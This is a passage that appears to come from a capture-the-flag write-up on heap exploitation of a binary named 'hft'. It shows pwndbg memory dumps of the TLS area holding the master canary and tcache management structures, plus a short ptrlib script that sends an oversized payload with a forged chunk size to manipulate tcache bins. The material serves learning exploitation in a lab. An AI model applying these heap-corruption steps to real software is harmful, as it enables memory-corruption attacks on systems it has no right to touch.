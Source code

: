 ```
pwndbg> telescope 0x7ffff7d6e000 20000
00:0000│    0x7ffff7d6e000 ◂— 0x0
01:0008│    0x7ffff7d6e008 ◂— 0x22002
02:0010│ r9 0x7ffff7d6e010 ◂— 0x21299
03:0018│    0x7ffff7d6e018 ◂— 0x0
... ↓       17618 skipped
44d6:226b0│    0x7ffff7d906b0 —▸ 0x7ffff7fad580 —▸ 0x7ffff7fa9820 —▸ 0x7ffff7f6d1d7 ◂— 0x636d656d5f5f0043 /* 'C' */
44d7:226b8│    0x7ffff7d906b8 —▸ 0x7ffff7fb5340 (_res) ◂— 0x0
44d8:226c0│    0x7ffff7d906c0 ◂— 0x0
44d9:226c8│    0x7ffff7d906c8 —▸ 0x7ffff7f514c0 ◂— 0x100000000
44da:226d0│    0x7ffff7d906d0 —▸ 0x7ffff7f51ac0 ◂— 0x100000000
44db:226d8│    0x7ffff7d906d8 —▸ 0x7ffff7f523c0 ◂— 0x2000200020002
44dc:226e0│    0x7ffff7d906e0 ◂— 0x0
... ↓       2 skipped
44df:226f8│    0x7ffff7d906f8 —▸ 0x55555555a010 ◂— 0x0
44e0:22700│    0x7ffff7d90700 ◂— 0x0
44e1:22708│    0x7ffff7d90708 —▸ 0x7ffff7facc80 ◂— 0x0
44e2:22710│    0x7ffff7d90710 ◂— 0x0
... ↓       5 skipped
44e8:22740│    0x7ffff7d90740 ◂— 0x7ffff7d90740
44e9:22748│    0x7ffff7d90748 —▸ 0x7ffff7d91160 ◂— 0x1
44ea:22750│    0x7ffff7d90750 —▸ 0x7ffff7d90740 ◂— 0x7ffff7d90740
44eb:22758│    0x7ffff7d90758 ◂— 0x0
44ec:22760│    0x7ffff7d90760 ◂— 0x0
44ed:22768│    0x7ffff7d90768 ◂— 0xfc4ebc0b86d9f900
~~~
pwndbg> vmmap 0x7ffff7d906f8
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x55555555a000     0x55555559d000 rw-p    43000      0 [heap]
►   0x7ffff7d6e000     0x7ffff7d93000 rw-p    25000      0 [anon_7ffff7d6e] +0x226f8
    0x7ffff7d93000     0x7ffff7dbb000 r--p    28000      0 /mnt/c/Users/tsato/Downloads/DLLLLp/libc.so.6
```
This seems to be a thread-specific area called TLS (Thread Local Storage). 
There seems to be a pointer to the master canary and the management area of 'tcachebins'. Nicely create 'tcachebins' and take a look at the admin area.  
```python
from ptrlib import *

elf = ELF("./hft")
libc = ELF("./libc.so.6")

sock = Process("./hft")

sock.sendafter(":[PKT_RES]\n", p64(0xD28))
sock.sendline(p64(0x0) + b"A" * 0xD18 + p32(0x41))

sock.sendafter(":[PKT_RES]\n", p64(0x19))
sock.sendline(p64(0x0))

sock.sendafter(":[PKT_RES]\n", p64(0x22000))

sock.sh()
```
```bash
$ sudo gdb -q -p $(pidof hft)
~~~
pwndbg> bins
~~~
tcachebins
0x20 [  1]: 0x55555555afd0 ◂— 0x0
fastbins
```